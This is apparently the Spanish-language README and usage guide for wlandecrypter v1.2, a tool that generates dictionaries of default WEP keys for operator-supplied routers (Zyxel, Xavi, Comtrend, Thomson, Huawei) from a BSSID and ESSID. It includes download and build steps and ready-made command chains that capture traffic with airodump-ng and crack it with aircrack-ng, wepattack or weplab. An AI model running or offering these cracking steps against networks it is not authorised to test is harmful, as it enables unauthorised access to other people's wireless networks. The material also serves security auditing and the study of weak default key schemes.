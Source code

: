           _                 _                            _              
         | |               | |                          | |            
__      _| | __ _ _ __   __| | ___  ___ _ __ _   _ _ __ | |_ ___ _ __  
\ \ /\ / / |/ _` | '_ \ / _` |/ _ \/ __| '__| | | | '_ \| __/ _ \ '__| 
 \ V  V /| | (_| | | | | (_| |  __/ (__| |  | |_| | |_) | ||  __/ |    
  \_/\_/ |_|\__,_|_| |_|\__,_|\___|\___|_|   \__, | .__/ \__\___|_|    
                                              __/ | |                             
 WLANDECRYPTER v1.2                          |___/|_|                             
................................................................................



Descripción:	Generador de diccionario de claves por defecto para los routers
		de Timofonik Zyxel, Xavy, Comtrend, Thomson y Huawei.


-------------------------------------------------------------------------------------------- 
-------------------------------------------------------------------------------------------- 

USO

uso: wlandecrypter [-l] <bssid> <essid> [output_file opcion]

	-l : lista en pantalla todos los routers conocidos.

opcion:
	-e : genera diccionario experimental para routers desconocidos.
	-a : genera diccionario para todos los routers conocidos y una WLAN_XX.

   
   <essid> = WLAN_??, para crear diccionario con todas las posibilidades.


--------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------- 

OBSERVACIONES

- Las opciones -e y -a no se ejecutan a la vez, wlandecrypter sólo llevará a cabo la 
  primera que encuentre en la línea de comandos.

- Opción -e experimental: Ya que en algunos de los últimos routers las claves siguen el patrón
  X112233xxxxAB para por ejemplo un router Xavi con mac 11:22:33:xx:xx:xx y WLAN_AB, e igual en
  algunos Comtrend, Zyxel, etc, porque no probar y ver que pasa con otros que puedan aparecer y no
  estén aun en la lista.

- Opción -a: Genera las claves de un WLAN_XX para todos los routers conocidos sin tener en cuenta
  la bssid introducida. Por ejemplo puede servir para un router no conocido, distinto a los entregados
  por el operador, pero en el que se haya mantenido la configuración del original.

- Un diccionario con la opción -a y wlan_?? ocupará más de 4 GB de disco duro, ¿realmente
  necesitas eso Y PUEDES MANEJARLO?.

- Con la opción -e y wlan_?? el diccionario será de unos 670 MB.

-------------------------------------------------------------------------------------------- 
-------------------------------------------------------------------------------------------- 

EJEMPLOS

- Ejemplo1: wlandecrypter 00:11:22:33:44:55 wlan_aa prueba -e

  Genera Diccionario 'prueba'con C001122xxxxAA, X001122xxxxAA, Z001122xxxxAA, T001122xxxxAA y H001122xxxxAA


- Ejemplo2: wlandecrypter 00:11:22:33:44:55 wlan_aa prueba2 -a 

  Genera el diccionario 'prueba2' para cada BSSID, es decir, para cada router conocido y WLAN_AA, 
  no importa que pongamos como <bssid> no se usará. El diccionario ocupará 19,2 MB en disco duro.

-------------------------------------------------------------------------------------------- 
-------------------------------------------------------------------------------------------- 

Descarga

 http://www.wifiway.org/archivos/wlandecrypter-1.2.tar.gz

 Incluye código fuente y fichero ejecutable wlandecrypter ya compilado en ubuntu.

-------------------------------------------------------------------------------------------- 
-------------------------------------------------------------------------------------------- 

INSTALACION

Compilación:
 make clean && make



Instalación:
 sudo make install



 Más info -> Foro http://www.seguridadwireless.net/


................................................................................
* Fichero:	wlandecrypter.c
* Autor:	Nilp0inteR (nilp0inter2k6[at]gmail[dot]com)
* Fecha:	23-03-2006  
*
* Actualizado:		22-11-2006 por nilp0inter
* Modificado v0.6 :	15-12-2007 por *dudux    dudux[at]elhacker[dot]net
* Modificado v0.7 :	22-11-2008 por *dudux    dudu[at]seguridadwireless[dot]net
* Modificado v0.8 :	12-04-2009 por *dudux    dudu[at]seguridadwireless[dot]net
* Modificado v1.0 :	10-05-2009 por *dudux  // bea vuela muy alto...el cielo es nuestro niña
* Modificado v1.1 :	18-05-2009 por *dudux     Añadida funcion para ESSIDs cambiados 
*
* Modificado:		www.seguridadwireless.net    
*
* 
* Actualizado v1.2b:	18-11-2009 Niroz&NiñoMelon.	Añadidas opciones '-l', '-e' y '-a'. Añade router
*							Xavi E0:91:53.	También se eliminó la constante MAXINDEX
*							y el código relacionado con ella.
*
* Actualizado v1.2:	08-12-2009 Niroz&NiñoMelon.	Añadidas opciones '-l', '-e' y '-a'. Añade routers Comtrend,
*							Xavi, Thomson y Huawei. Se eliminó la constante MAXINDEX y el
*							código relacionado con ella.
*
*
*
*
* Este programa es software libre; puedes redistribuirlo y/o modificarlo
* bajo los terminos de la Licencia Publica General GNU (GPL) publicada
* por la Free Software Foundation; en su version numero 2, o (bajo tu 
* criterio) la ultima version. Mira http://www.fsf.org/copyleft/gpl.txt.
* 
* Este programa se distribuye SIN GARANTIA de ningun tipo. USALO bajo tu proio riesgo.
*
* Observaciones: wlandecrypter es multiplataforma, solo las últimas versiones están empaquetadas
*                  para  linux y  versiones de la Livecd WIFIWAY y WIFISLAX.
*                  Hoy en día estan para todo el mundo.
*
*                 * Wlandecrypter 0.7 para  PDAs (Zaurus) gracias a burton de seguridadwireless.
*                 * Wlandecrypter 0.5 para Macintosh.
*                            --->http://wiki.adictolinux.org/index.php/Wlandecrypter_en_Mac_Os_X
*                 * Wlandecrypter 0.5 para windows no se nada,creo que nilp0inter compiló hasta la v0.5
*                
*
* wlandecrypter 1.2 para windows y Macintosh en foro.seguridadwireless.net o compila este mismo código.
* 
*
* Mira también:  wlaninject , wlandestroy , wepattack , weplab y aircrack-ng 



#Niroz&Melon 10/12/2009.

--------------------------------------------------------------------------------------------

***********************************************************************************
***********************************************************************************
          _                 _                            _              __   ___  
         | |               | |                          | |            /_ | / _ \ 
__      _| | __ _ _ __   __| | ___  ___ _ __ _   _ _ __ | |_ ___ _ __   | || | | |
\ \ /\ / / |/ _` | '_ \ / _` |/ _ \/ __| '__| | | | '_ \| __/ _ \ '__|  | || | | |
 \ V  V /| | (_| | | | | (_| |  __/ (__| |  | |_| | |_) | ||  __/ |     | || |_| |
  \_/\_/ |_|\__,_|_| |_|\__,_|\___|\___|_|   \__, | .__/ \__\___|_|     |_(_)___/ 
                                              __/ | |                             
                                             |___/|_|                             

***********************************************************************************
***********************************************************************************

                   
                             _       _           _            
                          /\| |/\   | |         | |           
      _ __   ___  _ __    \ ` ' / __| |_   _  __| |_   ___  __
     | '_ \ / _ \| '__|  |_     _/ _` | | | |/ _` | | | \ \/ /
     | |_) | (_) | |      / , . \ (_| | |_| | (_| | |_| |>  < 
     | .__/ \___/|_|      \/|_|\/\__,_|\__,_|\__,_|\__,_/_/\_\
     | |                                                      
     |_|                                                      

***********************************************************************************


****************************
Para compilar wlandecrypter:
****************************

wget http://www.wifiway.org/archivos/wlandecrypter-1.0.tar.gz
tar zxvf wlandecrypter-1.0.tar.gz
cd wlandecrypter-1.0/
make clean && make 
su
make install



***************
Para usarlo....
***************
Hay 3 maneras : 1) con aircrack-ng 
                2) con wepattack
                3) con weplab


1)  
airodump-ng -w captura --channel 6 ath0
wlandecrypter 00:11:22:33:44:55 WLAN_00 diccionario00.txt
aircrack-ng -b 00:11:22:33:44:55 -w diccionario00.txt captura.cap

o

airodump-ng -w captura --channel 6 ath0
wlandecrypter 00:11:22:33:44:55 WLAN_00 | aircrack-ng -b 00:11:22:33:44:55 -K captura.cap -w -

2)
airodump-ng -w captura --channel 6 ath0
wlandecrypter 00:11:22:33:44:55 WLAN_00 | wepattack -f captura.cap

3)
airodump-ng -w captura --channel 6 ath0
wlandecrypter 00:11:22:33:44:55 WLAN_00 |  weplab --key 128 -y --bssid 00:11:22:33:44:55 captura.cap



Cualquiera es buena.
Con wepattack y weplab sólo se precisa 1 ivs mientras que aircrack-ng necesita 4 ó 5 ivs.
En los casos de doble diccionario se recomienda usar aircrack-ng + wlandecrypter.


Si no obtenéis ivs deberéis gastar wlaninject.

Echale un ojo al codigo  
v0.7 -----> http://codepad.org/ZXRZvCvz 
v0.8 -----> http://codepad.org/tFEcR59y
v1.0 -----> http://codepad.org/2MbolklX
v1.1 -----> http://codepad.org/ApmfMyJH

Visita  http://www.seguridadwireless.net/
                                           
    
contacta dudu@seguridadwireless.net
